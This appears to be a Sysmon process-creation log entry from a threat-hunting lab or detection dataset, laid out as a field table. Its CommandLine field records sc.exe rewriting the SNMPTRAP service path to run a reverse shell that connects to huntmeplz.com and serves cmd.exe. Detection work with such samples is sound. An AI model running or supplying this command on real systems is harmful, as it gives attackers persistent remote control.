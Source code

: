 | **Field**             | **Value**                                                                                                                                                                      |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CommandLine           | `sc.exe config SNMPTRAP binPath= "C:\Users\victim\AppData\Local\Temp\rev.exe huntmeplz.com 4443 -e cmd.exe"`                                                                  |
| Company               | Microsoft Corporation                                                                                                                                                         |
| CurrentDirectory      | `C:\Users\victim\Downloads\`                                                                                                                                                  |
| Description           | Service Control Manager Configuration Tool                                                                                                                                    |
| EventID               | 1                                                                                                                                                                              |
| FileVersion           | 10.0.17763.1 (WinBuild.160101.0800)                                                                                                                                            |
| Hashes                | MD5=ABB56882148DE65D53ABFC55544A49A8, SHA256=78097C7CD0E57902536C60B7FA17528C313DB20869E5F944223A0BA4C801D39B, IMPHASH=35A7FFDE18D444A92D32C8B2879450FF |
| Image                 | `C:\Windows\System32\sc.exe`                                                                                                                                                  |
| IntegrityLevel        | Medium                                                                                                                                                                        |
| LogonGuid             | `{4bbef3ae-81e4-630c-b94b-100000000000}`                                                                                                                                      |
| LogonId               | `0x104bb9`                                                                                                                                                                    |
| OriginalFileName      | sc.exe                                                                                                                                                                        |
| ParentCommandLine     | `cmd.exe`                                                                                                                                                                     |
| ParentImage           | `C:\Windows\System32\cmd.exe`                                                                                                                                                 |
| ParentProcessGuid     | `{4bbef3ae-cbcf-630c-070f-000000000e00}`                                                                                                                                      |
| ParentProcessId       | 1856                                                                                                                                                                          |
| ParentUser            | SIGHUNT\victim                                                                                                                                                                |
| ProcessGuid           | `{4bbef3ae-cc04-630c-0b10-000000000e00}`                                                                                                                                      |
| ProcessId             | 1208                                                                                                                                                                          |
| Product               | Microsoft® Windows® Operating System                                                                                                                                          |
| RuleName              | -                                                                                                                                                                              |
| TerminalSessionId     | 2                                                                                                                                                                              |
| User                  | SIGHUNT\victim                                                                                                                                                                |
| UtcTime               | 2022-08-29 14:24:04.377                                                                                                                                                        |
